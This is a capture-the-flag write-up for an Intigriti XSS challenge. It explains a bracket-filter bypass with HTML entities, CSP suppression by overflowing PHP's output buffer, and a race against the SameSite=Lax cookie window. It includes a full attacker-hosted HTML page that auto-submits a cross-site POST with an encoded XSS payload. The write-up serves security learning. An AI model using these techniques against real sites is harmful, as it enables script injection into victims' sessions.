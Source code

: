 
```
$stringa='/[(\`\)]/';
$variabile=preg_replace($stringa,'NotAllowedCaracter',$YourPayload);
```
+ we are not allowed to use brackets nor backticks. However, we are able to bypass this by encoding these characters using HTML entities
+ payload: <img src=x onerror=alert&lpar;1&rpar;>.
+ next problem : csp
`content-security-policy: default-src 'none'; style-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; script-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; img-src 'self'`
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/262edd23-d537-431e-b890-99a250b258e5)
+ The policy looks mostly correct as we cannot inject arbitrary <script> tags since a valid nonce is required each time the page is requested. We are also unable to insert inline JavaScript events such as onload, onerror, etc. since there is a lack of unsafe-inline
+ Even though we can use base tag, the webpage is not importing any kinds of javascript files at all.
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/aec86427-37ca-4ba3-a17d-5134f17cb3f8)
+ token is set to a 64-character string, FirstText and Hashing are set based on our input. After testing around for abit, I found that:

token accepts any arbitrary string as long as it is exactly 64-characters long
PHPSESSID cookie has to be present and the value can be any string of at least 1-character long
+ The bug here is that the application’s response/output will not be sent first, but the header should. The body data request will be sent to the output buffer before the HTTP header since there’s no data returned before the header. This means the CSP inside the header will be ignored if we provide enough data more than the default PHP output_buffer size (4096 bytes), and sbox parameter is the perfect spot for the attacker to control to trigger the error.
+ Now we’ll try to populate the parameters with a junk buffer data so that the CSP header would be ignored.
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/52a2d66a-fd19-46b1-8cac-fe141dad140e)

+ The content-security-policy header is no longer returned in the response header for the second request. This means that our XSS payload would work!
+ The following should be hosted in a attacker controlled domain.
```
<html>
  <body>
	<script>
		function submit() {
			document.forms[0].submit();
		}
		
		function exploit() {
			var newTab = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
			setTimeout(submit, 5000);
		}
	</script>

	<button onclick='exploit()'>Click me</button>
    <form action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
      <input type="hidden" name="token" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
      <input type="hidden" name="FirstText" value="&lt;img&#32;src&#61;&quot;happy&#46;gif&quot;&#32;onload&#61;alert&amp;lpar&#59;document&#46;domain&amp;rpar&#59;&gt;" />
      <input type="hidden" name="Hashing" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
    </form>
  </body>
</html>
```
+ This relies on user interaction as they would need to click on the “Click me” button first. By doing so, the JavaScript in this file would open a new tab to the https://challenge-0322.intigriti.io/challenge/LoveSender.php page (the landing page containing the form). This step is essential as visiting this page would grant the victim a valid PHPSESSID cookie, which is required by the LoveReceiver.php page (vulnerable page) before the XSS payload would even load.
+ Important: `Furthermore, the PHPSESSID cookie was set without the SameSite attribute. This means that modern browsers such as Chrome and FireFox would implement a 2-minute buffer window before setting this attribute as SameSite=Lax.`
+ Once a valid PHPSESSID cookie is obtained, we have 2 minutes before the SameSite=Lax setting kicks in, preventing cross-site POST requests from sending cookies. Now we have to quickly send our POST request to trigger the XSS payload. The HTML file above automatically sends this POST request after a 5-second delay (to ensure that the new cookie from the opened tab is processed). When the request is sent successfully, the XSS should trigger in the victim’s context.

